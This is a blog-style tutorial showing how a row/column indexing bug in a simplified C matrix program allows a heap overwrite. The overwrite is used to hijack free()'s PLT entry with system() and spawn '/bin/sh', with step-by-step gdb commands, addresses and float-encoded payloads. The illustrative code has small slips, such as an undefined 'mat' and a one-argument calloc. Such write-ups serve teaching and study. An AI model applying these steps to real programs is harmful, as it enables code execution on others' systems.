 ```yaml
---
layout: post
title: A Tale Of Indices
excerpt: Exploiting bad indexing code to mess with malloc and the PLT
date: 2017-04-13
tags: c-cpp
---
```


This is the story of how bad indexing code can lead to an exploit.
Even though this is on the heap, most of it doesn't actually involve malloc that much, but relies on a specific feature of it: memory blocks are adjacent.
However, it does involve messing with the plt!

<!--more-->

# A Wild Bug Appears

First, the code.
This is not exactly the original code, but simplified quite a bit (removing the input logic, much checking and other functionality).

```c
struct matrix
{
	int rows, cols;
	float* data; // allocated in the heap, has rows * cols floats
};

struct matrix* matrices[64]; // each matrix is allocated in the heap

float* get_addr(int id, int row, int col)
{
	// assume these values have been checked and are in range
	return &matrices[id]->data[row * mat->rows + col];
}

float get(int id, int row, int col)
{
	return *get_addr(id, row, col);
}

void set(int id, int row, int col, int val)
{
	*get_addr(id, row, call) = val;
}

int allocate(int rows, int cols)
{
	int id = get_free_id(); // logic somewhere else
	matrices[id] = malloc(sizeof(struct matrix));
	matrices[id]->rows = rows;
	matrices[id]->cols = cols;
	matrices[id]->data = calloc(sizeof(float) * rows * cols);
}

void release(int id)
{
	free(matrices[id]->data);
	free(matrices[id]);
	matrices[id] = 0;
}
```

Can you find the bug?
Hint: it's in `get_addr`.
The matrix indexing is incorrect, it should be `row * mat->cols + col`.
See the difference?
This overflow is what allows the shell to be spawned.

# A note on float conversion

In this program, memory is only accessible as floats.
While inconvenient, this is still usable as floats also take up the same space as ints, 4 bytes.
With enough digits, we can be guaranteed to get an identical value when we set it.
To find this value, we can use a union:

```c
int main()
{
	union {
		int a;
		float b;
	};
	// set a or b here
	// e.g. a = 0x100
	printf("%8x %.9g", a, b);
}
```

Later on, we'll also write strings.
Since the system is little endian (x86), we just use the characters' ASCII value, in reverse order (for each 4-byte chunk).

# Exploit Preparation

Firstly, a bit on `malloc()`.
It obtains memory from the system (usually via `mmap()`), and divides it up into chunks.
These are then allocated when requested by the programmer.
Since the block given is the first that fit the size, this results in the matrices and their descriptors being allocated right next to each other:

```
|-----+------|-----+-----------|-----+-----|-----+-----------|
| (sz)|mat 1 | (sz)|mat1->data | (sz)|mat2 | (sz)|mat2->data |
|-----+------|-----+-----------|-----+-----|-----+-----------|
```

As a result, we can exploit the bad indexing to overwrite the matrix descriptor (in this case mat2) from the previous data block (mat1->data).
Through this, we can overwrite the data pointer of mat2 to whatever we want, allowing us to write to any location in memory.
One potential target is the plt (procedural link table), which lists the location of functions of dynamically loaded libraries (e.g. libc).
However, one specific entry is of interest -- `free()`.
When matrices are released, this is called on user-editable data, and with that as the only argument.
`system()` also takes a pointer as a single argument!

However, there is a problem: dynamic libraries can be loaded anywhere, and so can `system()`.
However, it is always at the same offset from `free()`, and we can use that, along with the existing plt entry to calculate the position of `system()`.

# Actual Exploit

First, we need to get some information:

```console
$ objdump -R matrix | grep free
0804a10c R_386_JUMP_SLOT   free
$ gdb -q matrix
Reading symbols from matrix...(no debugging symbols found)...done.
(gdb) p __libc_system - __libc_free
$1 = -228656
```

Now, we perform the actual exploit.
First, we create 2 matrices which have more rows than columns (e.g. 8*7).
We then create and release another matrix.
This is required to initialize the plt entry to the actual location of `free()` (`__libc_free()`), from which we can figure out the location of `system()` using the offset.
We now can use the overflowing get_addr logic to overwrite mat2's data pointer to point to 0x0804a10c (the address of the plt entry).

```c
allocate(8, 7); // id 0
allocate(8, 7); // id 1
allocate(1, 1); // id 2
release(2);
```

Now, how do we figure out where to write to overwrite that pointer?
Since it's the last element of the struct, we search down from the top, until we get to the second non-zero value.
Why second?
Because the first would be the size of the next block, and we have no need overwriting that.
From my tests, it appears that with an 8*7 matrix, the value is located at [7,4], which we overwrite with the float equivalent of 0x0804a10c.

```c
set(0, 7, 4, 3.991161479e-34); // mat[7][4] = 0x0804a10c
```

Then, we can get the current value of the plt entry, which would be the address of `__libc_free()`.
We can add the offset (-228656) to this to get the address of `__libc_system()` and overwrite the exiting value with this.

```c
get(1, 0, 0); // returns -4.468552546e+33 == 0xf75c5110
set(1, 0, 0, -4.397786941e+33); // mat[0][0] = 0xf758d3e0 == (0xf75c5110 - 228656)
```

Now that we have overwritten `free()`, we can write the payload, which is "/bin/sh" (you can use any command here though).
And we execute the command by freeing that matrix.

```c
set(0, 0, 0, 1.805717599e+28); // mat[0][0] = 0x6e69622f == '/bin'
set(0, 0, 1, 9.592211688e-39); // mat[0][0] = 0x0068732f == '/sh\0'
release(0);
$
```

Shell!
